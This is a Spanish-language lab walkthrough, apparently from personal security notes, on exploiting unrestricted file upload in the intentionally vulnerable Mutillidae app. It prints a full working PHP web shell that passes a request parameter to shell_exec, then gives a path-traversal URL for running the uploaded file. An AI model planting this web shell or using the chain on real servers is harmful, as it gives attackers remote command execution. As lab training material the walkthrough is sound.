 # Unrestricted File Upload

Esta vulnerabilidad se solia llamar como `Local File Inclusion (LFI)` por que habia otro tipo de tecnica que se asemejaba a esta denominada `Remote File Inclusion (RFI)`, pero este tipo de tecnicas han ido desapareciendo con el tiempo ya que solo se podia hacer con codigo `PHP` se ha ido actualizando el lenguaje, las funciones que lo hacian dejan de hacerlo, por lo que ha dia de hoy se denomina como una subida de ficheros sin restriccion.

Incluso en la pagina no se llama `Local File Inclusion (LFI)` si no que se llama `Unrestricted File Upload (UFU)`.

En este caso en la pagina de `Mutillidae` en esa seccion consiste en que nos da una opcion la pagina de que podemos subir un fichero, pero como por dentro no lleva ningun tipo de sanitizacion por que esta mal programada, nosotros vamos a poder subir una `WebShell` al servidor.

Vamos a crear un archivo con la `WebShell`:

> shell.php

```shell
nano shell.php

#Dentro del nano

<form action="" method="post" enctype="application/x-www-form-urlencoded">
		<table style="margin-left:auto; margin-right:auto;">
			<tr>
				<td colspan="2">Please enter system command</td>
			</tr>
			<tr><td></td></tr>
			<tr>
				<td class="label">Command</td>
				<td><input type="text" name="pCommand" size="50"></td>
			</tr>
			<tr><td></td></tr>
			<tr>
				<td colspan="2" style="text-align:center;">
					<input type="submit" value="Execute Command" />
				</td>
			</tr>
		</table>
	</form>
	<?php
		echo "<pre>";
		echo shell_exec($_REQUEST["pCommand"]);
		echo "</pre>";
	?>
```

Por ejemplo esa, la misma que utilizamos para el caso anterior.

<figure><img src="../../.gitbook/assets/image (80) (1).png" alt=""><figcaption></figcaption></figure>

Subimos el archivo de nuestra `WebShell`.

Y nos dice donde se ha depositado:

<figure><img src="../../.gitbook/assets/image (81) (1).png" alt=""><figcaption></figcaption></figure>

Ahora haciendo `Path Traversal` podremos acceder al archivo que acabamos de subir:

```
URL = http://<IP>/mutillidae/src/index.php?page=/tmp/shell.php
```

Y con esto estariamos en ese `PHP` donde podremos ejecutar comandos, como en la anterior.
